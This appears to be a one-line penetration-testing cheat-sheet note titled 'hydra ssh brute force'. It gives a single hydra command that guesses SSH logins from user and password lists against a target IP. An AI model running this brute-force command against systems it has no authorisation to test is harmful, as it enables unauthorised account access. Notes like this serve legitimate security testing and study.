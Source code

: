 # hydra ssh brute force
```bash
hydra -L users -P passwords -e nsr $IP ssh -t 1
```

# References

Tags:
    #assorted
